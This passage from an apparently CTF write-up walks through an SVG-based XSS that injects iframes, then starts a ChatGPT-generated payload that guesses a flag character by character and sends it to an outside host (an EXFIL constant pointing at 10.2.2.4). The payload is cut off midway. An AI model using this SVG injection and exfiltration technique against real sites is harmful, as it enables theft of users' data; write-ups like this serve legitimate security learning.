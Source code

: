 ![image-20250808123300236](/static/images/ncsc-finals-2025/image-20250808123300236.png)

This simple payload is not going to work out in the poc because we are inside `.svg`,  not a real `.html` page. During the CTF, I didn't need to worry much about investigating workarounds because AI was allowed, which allowed me to generate a full working payload using it.. Let's keep diving,

Searching around, we can find a method using `createElementNS` and using the `document.documentElement` instead of `document.body` like this:

```svg
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
  const svg = document.documentElement; 
  const fo = document.createElementNS('http://www.w3.org/2000/svg', 'foreignObject');
  const iframe = document.createElementNS('http://www.w3.org/1999/xhtml', 'iframe');
  iframe.setAttribute('src', 'http://localhost:8124/videos?filter=NCSC');
  fo.appendChild(iframe);
  svg.appendChild(fo);
   </script> 
</svg>
```

![image-20250808143813169](/static/images/ncsc-finals-2025/image-20250808143813169.png)

Great, now with good coding experience, we can build something that will load iframes containing the next character for our flag until a match hits, then do the same for the next character in the flag, and so on. Here is the payload that was generated using chatgpt and worked out during the CTF

> If you are seeing this, I will be adding my own cleaned payload that is *enhanced* its best for getting the flag 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" onload="init()">
  <rect width="16" height="16" fill="white"/>
  <script type="application/ecmascript"><![CDATA[
  (function(){
    const SVG_NS  = 'http://www.w3.org/2000/svg';
    const HTML_NS = 'http://www.w3.org/1999/xhtml';
    const ORIGIN  = 'http://127.0.0.1:8124';
    const EXFIL   = 'http://10.2.2.4/leak?flag=';
    const LOG     = 'http://10.2.2.4/log?m=';

    const ALPHA   = 'abcdefghijklmnopqrstuvwxyz{}_ '; // case-insensitive, letters + space
    const TRIES   = 3;      // raise if noisy (e.g., 5–7)
    const TIMEOUT = 8000;   // per-trial safety timeout (ms)

    // Known non-flag titles (to reduce risk of colliding with them)
    const KNOWN   = [
      'Af3a Baklaweyyeh Btokrosesh',
      'Mansaf Recipe',
      'Third Day of Eid in Abdoun'
    ];
    const inKnown = s => KNOWN.some(k => k.toLowerCase().includes(s.toLowerCase()));

    function addIFrame(url){
      const fo = document.createElementNS(SVG_NS, 'foreignObject');
      fo.setAttribute('width','2'); fo.setAttribute('height','2');
      const fr = document.createElementNS(HTML_NS, 'iframe');
      fr.setAttribute('style','width:2px;height:2px;border:0;');
      fr.setAttribute('referrerpolicy','no-referrer');
      fr.setAttribute('src', url);
      fo.appendChild(fr);
      document.documentElement.appendChild(fo);
      return {fo, fr};
```